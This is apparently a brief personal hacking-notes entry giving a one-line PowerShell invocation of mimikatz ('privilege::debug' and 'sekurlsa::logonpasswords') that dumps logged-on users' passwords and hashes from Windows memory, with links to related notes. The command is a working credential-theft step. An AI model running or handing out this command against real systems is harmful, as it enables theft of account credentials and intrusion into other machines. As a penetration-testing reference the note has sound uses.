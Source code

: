 # mimikatz all in one command for non-interactive powershell
```
.\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
```

# Related

- [20221003151089](/zet/20221003151089/README.md) mimikatz
- ~/kb/hacking/windows/mimikatz.md

Tags:

    #hacking #windows #mimikatz 
